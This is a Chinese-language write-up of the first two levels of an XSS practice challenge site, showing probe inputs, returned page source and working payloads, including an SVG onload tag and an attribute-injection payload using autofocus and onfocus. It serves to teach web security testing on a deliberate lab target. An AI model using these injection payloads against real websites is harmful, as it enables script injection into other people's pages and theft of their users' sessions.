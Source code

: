 # www.sudo.co.il Writeup

## 链接

* [www.sudo.co.il](http://www.sudo.co.il/xss)

## 题目解析

### Level 0

**思路**  
先简单探测一下是否会过滤常见的标签，输入`<svg/onload=alert(1)>`，结果直接弹窗。这道开胃菜比较简单，答案如下：
```html
<svg/onload=alert(document.domain)>
```

### Level 1

**思路**  
照例先探测一下，输入`<svg/onload=alert(1)`。和上次不同，这次没有弹窗。返回的页面内容如下：
```text
Thank you for subscription!
Email <svg/onload=alert(1)> added to mailing list! 
```
查看一下页面源码，如下：
```html
<html><head></head><body>
<script async="" src="//www.google-analytics.com/analytics.js"></script><script src="analytics.js"></script>

<form action="#" method="get">
<input type="text" name="email" value="<svg/onload=alert(1)>"><input type="submit" value="Subscribe!">
</form>

Thank you for subscription!<br>
Email <b>&lt;svg/onload=alert(1)&gt;</b> added to mailing list!

</body></html>
```
很显然，`Email`这个地方对反射内容做了消毒，将`<`和`>`做了实体化编码。因此，这个地方无法注入JS代码。再观察源代码，发现`<input>`的
`value`处有可能存在attribute注入。先探测一下`"`是否会被过滤，输入`" x="`，结果如下：
```html
<form action=# method="get">
<input type="text" name="email" value="" x=""><input type="submit" value="Subscribe!">
</form>
```
可见引号未被过滤，可以进行注入。使用如下payload尝试，顺利弹窗：
```html
" autofocus="" onfocus="alert(document.domain)
```
